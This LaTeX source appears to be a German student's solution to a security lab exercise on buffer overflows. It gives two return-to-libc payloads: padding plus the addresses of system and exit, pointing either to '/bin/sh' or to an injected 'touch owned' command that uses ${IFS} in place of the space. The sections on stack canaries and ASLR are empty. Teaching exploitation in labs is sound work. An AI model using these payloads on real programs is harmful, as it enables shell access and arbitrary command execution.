 \documentclass{article}
\begin{document}
\subsection{b)}
Lösung Aufgabe 2 b) i):\\
\begin{lstlisting}
run $(python -c "print'\x90'*112 + '\x10\xcd\xe1\xf7' + '\x70\xff\xe0\xf7' + '\xcf\xb8\xf5\xf7'")
\end{lstlisting}
Zusammensetzung:
\begin{itemize}
\item 112 Byte Padding (Buffer)
\item Adresse der Funktion "{}system"{}
\item Adresse der Funktion "{}exit"{} \textbf{Für ordentliches Terminieren!}
\item Adresse des Strings "{}/bin/sh"{}
\end{itemize}
Lösung Aufgabe 2b) i):\\
\begin{lstlisting}
run $(python -c "print'\x90'*112 + '\x10\xcd\xe1\xf7' + '\x70\xff\xe0\xf7' + '\x47\xd2\xff\xff' + 'touch$\x7BIFS\x7Downed'")
\end{lstlisting}
Zusammensetzung:
\begin{itemize}
\item 112 Byte Padding (Buffer)
\item Adresse der Funktion "{}system"{}
\item Adresse der Funktion "{}exit"{} \textbf{Für ordentliches Terminieren!}
\item Adresse des Strings "{}touch owned"{}
\item Befehl "{}touch owned"{}, wobei das Leerzeichen mithilfe der Umgebungsvariblen "{}IFS"{} escaped wird.
\end{itemize}

\section{Aufgabe 3: Stack Canaries}
	
\section{Aufgabe 4: Address Space Layout Randomization (ASLR)}
	
\end{document}
